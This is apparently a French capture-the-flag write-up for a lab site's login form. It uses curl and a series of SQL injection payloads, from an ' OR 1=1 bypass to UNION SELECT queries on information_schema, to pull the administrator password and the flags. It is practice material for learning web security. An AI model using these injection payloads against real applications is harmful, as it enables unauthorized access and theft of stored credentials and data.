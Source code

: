# Comme dans un Moul'1

> Ici les exemples sont exploités avec curl, mais bien entendu cela fonctionne tout aussi bien directement avec le formulaire dans le navigateur  

## Partie 1

Ici, on est face à un formulaire.  
Le premier réflexe pourrait être de tester si les inputs sont protégés contre les injections :

```
curl -s "https://moulin.ctf.ineat.fr/" --data "username=' OR 1=1 LIMIT 1#&password=" | grep INEAT
```

refexe somme toute plutôt efficace je dois dire : `<h1 class="corb-flag">INEAT{c0nn3xi0n_v4lid33}</h1>`

## Partie 2

> Cette méthode n'est certes pas la plus simple, mais elle a le mérite de retracer un peu plus en détail un scema d'exploitation d'injection SQL ;)

On est donc ici face au même site que le précédent. Il faut donc trouver une méthode pour exploiter ça un peu plus en profondeur.
Partons donc à la recherche des colonnes de notre bdd :

```
curl -s "https://moulin.ctf.ineat.fr/" --data "username=' UNION SELECT 1 #&password=" | grep INEAT
```

Parfait, notre champ username est donc injectable : `Bienvenue 1!`  
On peut maintenant commencer à retrouver la structure de notre bdd au travers de ce champ :

```text
' UNION SELECT user() #
 <-- level2@172.27.0.3 --> 
 
' UNION SELECT database() #
<-- level2 -->

' UNION SELECT table_schema FROM information_schema.tables WHERE table_schema != 'information_schema' #
<-- level 2 -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'username' #
<-- users -->

' UNION SELECT username FROM users WHERE 1=1 LIMIT 1 #
<-- administrator -->

' UNION SELECT password FROM users WHERE username = 'administrator' #
<-- Bienvenue this is a very complexe password! So proud :)! -->
```

Rien de très intéresant de ce côté, on va donc chercher une table qui contiendrait un champ "flag"

```text
' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 0,1#
<-- INNODB_SYS_TABLES -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 1,2#
<-- INNODB_SYS_TABLESPACES -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 2,3#
<-- my_secret_table -->
```

Ah, on tiens quelque chose d'intéressant (qu'on aurait pu avoir un peu plus tôt si on avait été un peu patient, j'en convient..)  
On peut vérifier que notre table a bien un colonne "flag" pour en avoir le coeur net :

 ```
' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'my_secret_table' #
<-- flag -->
```

On peut donc récupérer le flag
```
' UNION SELECT flag FROM my_secret_table #
<-- INEAT{U_f1nD_th3_s3cret_T4ble} -->
```
